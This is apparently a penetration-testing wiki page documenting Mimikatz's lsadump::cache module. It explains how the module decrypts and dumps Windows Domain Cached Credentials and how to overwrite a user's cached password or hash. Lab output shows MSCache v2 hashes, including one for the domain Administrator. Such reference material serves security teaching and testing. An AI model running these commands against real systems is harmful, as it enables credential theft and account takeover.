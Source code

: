 # cache

It can be used to enumerate Domain Cached Credentials from registry. It does so by acquiring the `SysKey` to decrypt `NL$KM` (binary protected value) and then `MSCache(v1/v2)`.

The registry key for the Domain Cached Credentials is `HKEY_LOCAL_MACHINE\SECURITY\Cache`

The number of cached entries is defined in `CachedLogonCount` in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

It has the following command line arguments:

* `/sam`: the SAM hive
* `/system`: The SYSTEM hive
* `/security`: The SECURITY hive
* `/user`: An existing username to modify the cached credentials
* `/password`: The new password of the specified user
* `/dcc`: The MS-Cache hash to be replaced
* `/ntlm`: The NTLM hash which will calculate the MS-Cache
* `/kiwi`: [Undocumented parameter](https://security.stackexchange.com/questions/182986/replacing-cached-domain-credentials-in-security-hive/185531#185531) which modifies the user's cached password to **mimikatz**
* `/subject`: The subject's certificate name. This name must conform to the X.500 standard. The simplest method is to specify the name in double quotes, preceded by `CN=` (e.g. `CN=myName`) ([more info](https://docs.microsoft.com/en-us/previous-versions/dotnet/netframework-2.0/bfsktky3\(v=vs.80\)?redirectedfrom=MSDN)).

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the NT-AUTHORITY\SYSTEM account).
{% endhint %}

```
mimikatz # lsadump::cache
Domain : WIN10
SysKey : 7e6804db6db0bbc15372ddf840962151

Local name : WIN10 ( S-1-5-21-1604892360-3618202543-1602915806 )
Domain name : hacklab ( S-1-5-21-2725560159-1428537199-2260736313 )
Domain FQDN : hacklab.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9b57ea93-9de6-5d50-0497-034513ddc692}
  [00] {9b57ea93-9de6-5d50-0497-034513ddc692} 62dd3714cc6d8e08f2c90bb18d949eb4e7fddb2478342640c5dc78a68d165e05

* Iteration is set to default (10240)

[NL$1 - 10/30/2021 8:53:10 PM]
RID       : 000006c2 (1730)
User      : hacklab\m3g9tr0n
MsCacheV2 : 7d3fb233bff87d75413d2c813df73fec

[NL$2 - 9/26/2021 2:46:02 PM]
RID       : 000001f4 (500)
User      : hacklab\Administrator
MsCacheV2 : fadb59e7f2f9a9bf6557ad4fa09e828f

[NL$3 - 10/18/2021 3:56:38 PM]
RID       : 000006c4 (1732)
User      : hacklab\optimus
MsCacheV2 : 98982877b0b57416d47a9a8f21331536
```

### Modify a DCC with `/kiwi`

```
mimikatz # lsadump::cache /user:hacklab\optimus /kiwi
> User cache replace mode !
  * user     : hacklab\optimus
  * password : mimikatz <-------------------- Default Password
  * ntlm     : 60ba4fcadc466c7a033c178194c03df6

Domain : WIN10
SysKey : 7e6804db6db0bbc15372ddf840962151

Local name : WIN10 ( S-1-5-21-1604892360-3618202543-1602915806 )
Domain name : hacklab ( S-1-5-21-2725560159-1428537199-2260736313 )
Domain FQDN : hacklab.local

...Output Omitted...
```

{% hint style="warning" %}
When changing the cached password for a user, all the related DPAPI data will be affected.
{% endhint %}

### Modify a DCC with `/ntlm`

```
mimikatz # lsadump::cache /user:hacklab\optimus /ntlm:647d6f9b59c899c5fe4dad779522b8c5
> User cache replace mode !
  * user     : hacklab\optimus
  * ntlm     : 647d6f9b59c899c5fe4dad779522b8c5

Domain : WIN10
SysKey : 7e6804db6db0bbc15372ddf840962151
```
